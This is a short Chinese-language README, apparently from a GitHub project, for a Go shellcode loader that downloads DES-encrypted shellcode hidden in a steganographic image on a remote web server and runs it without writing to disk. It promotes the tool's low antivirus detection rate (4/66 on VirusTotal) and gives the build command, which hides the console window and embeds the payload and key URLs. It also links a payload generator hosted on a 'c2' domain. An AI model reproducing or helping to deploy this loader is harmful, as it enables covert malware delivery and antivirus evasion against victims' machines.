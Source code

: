 图片隐写的远程shellcode加载器，无文件落地版本
---
采用des加密，所以需要des加密的shellcode网址,和des的key（将隐写的图片放入web服务器）
---
vt查杀率：4/66
![avatar](https://github.com/TRYblog/shellcode-load-web/blob/main/123.png)
微步
![avatar](https://github.com/TRYblog/shellcode-load-web/blob/main/456.png)
### 如何编译
```
 go build -ldflags "-w -s -H=windowsgui -X main.deskey=deskey的网址 -X main.descode=descode的网址"
```
### 关于图片隐写
[在线生成](http://c2.57dir.com)
图片隐写项目:https://github.com/auyer/steganography
### 关于作者
一个菜鸟.
[个人博客](https://www.nctry.com)

2021.03.10
